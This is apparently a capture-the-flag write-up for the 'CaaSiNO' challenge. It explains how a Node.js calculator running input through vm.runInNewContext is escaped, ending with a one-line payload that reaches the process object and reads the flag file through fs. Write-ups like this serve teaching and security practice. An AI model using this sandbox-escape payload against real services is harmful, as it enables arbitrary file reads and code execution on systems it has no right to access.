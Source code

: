 # CaaSiNO (305 solves)

Source: [calculator.js](./calculator.js)

```js
rl.prompt();
rl.addListener("line", (input) => {
	if (input === "q") {
		process.exit(0);
	} else {
		try {
			const result = vm.runInNewContext(input);
			process.stdout.write(result + "\n");
		} catch {
			process.stdout.write("An error occurred.\n");
		}
		rl.prompt();
	}
});
```

Looking at the source, it appears to take your input and run it using `vm.runInNewContext`. Googling for `nodejs vm escape`, we find [this site](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html).

We can access the process object via `this.constructor.constructor('return this.process')()`. Based on this, reading the flag is easily accomplished through the `fs` module.

Final Exploit:

```js
this.constructor.constructor("return this.process")().mainModule.require("fs").readFileSync("/ctf/flag.txt").toString();
```

Flag: flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
